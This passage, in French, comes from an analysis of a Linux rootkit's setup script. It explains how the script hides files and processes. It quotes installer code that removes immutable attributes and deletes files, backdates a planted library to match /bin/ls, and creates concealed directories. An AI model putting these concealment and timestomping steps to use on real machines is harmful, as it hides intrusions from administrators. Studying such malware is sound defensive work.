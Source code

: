 On peut émettre l'hypothèse que le numéro qui précède sert à définir le type. 2 pour une adresse IP, 3 pour un port TCP, 4 pour un port UDP... C'est une idée.

```bash
if [ -f /usr/include/file.h ]; then
  chattr -isa /usr/include/file.h
  rm -rf /usr/include/file.h
fi
```

Le fichier `file.h` contiendra comme on s'en doute les fichiers à dissimuler sur le système.  

Son contenu est le suivant :

```plain
sh.conf
libsh
.sh
system
shsb
libsh.so
ttylib
shp
shsniff
srd0
```

 On retrouve bien sûr le fichier `sh.conf` et d'autres fichiers croisés précédemment. Ce qui est nouveau c'est le `srd0` qui ressemble à un périphérique.

```bash
if [ -f /usr/include/log.h ]; then
  chattr -isa /usr/include/log.h
  rm -rf /usr/include/log.h
fi
```

Ce fichier contient les mots `mirkforce`, `synscan` et `syslog`...

```bash
if [ -f /usr/include/proc.h ]; then
  chattr -isa /usr/include/proc.h
  rm -rf /usr/include/proc.h
fi
```

Ce fichier contient tous les noms de processus qui devront être dissimulés aux yeux des utilisateurs du système.  

Étudions la suite du `setup` :

```bash
cd $BASEDIR
mv $BASEDIR/conf/lidps1.so /lib/lidps1.so
touch -acmr /bin/ls /lib/lidps1.so
touch -acmr /bin/ls $BASEDIR/conf/*
mv $BASEDIR/conf/* /usr/include/

# Ok lets start creating dirs
SSHDIR=/lib/libsh.so
HOMEDIR=/usr/lib/libsh

if [ -d /lib/libsh.so ]; then
  chattr -isa /lib/libsh.so
  chattr -isa /lib/libsh.so/*
  rm -rf /lib/libsh.so
fi

if [ -d /usr/lib/libsh ]; then
  chattr -isa /usr/lib/libsh
```
